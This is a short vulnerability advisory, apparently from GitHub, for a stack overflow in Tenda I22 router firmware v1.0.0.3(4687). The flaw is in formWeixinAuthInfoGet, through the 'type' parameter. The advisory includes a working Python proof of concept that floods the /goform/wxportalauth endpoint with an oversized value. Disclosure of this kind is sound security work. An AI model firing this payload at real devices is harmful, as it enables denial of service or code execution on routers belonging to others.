

# Tenda I22 formWeixinAuthInfoGet
### Overview
vendor: Tenda

product: I22

version: v1.0.0.3(4687)

type: Stack Overflow
### Vulnerability Description
Tenda I22 v1.0.0.3(4687) were discovered to contain a stack overflow via the type parameter in the formWeixinAuthInfoGet function.

### Vulnerability details
In function formWeixinAuthInfoGet line 20, it reads in a user-provided parameter `type`. The variable `src` is passed to the `strcat` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

data = {
    "type": "a"*0x2000
}
res = requests.post("http://192.168.0.1/goform/wxportalauth", data=data)
print(res.content)
```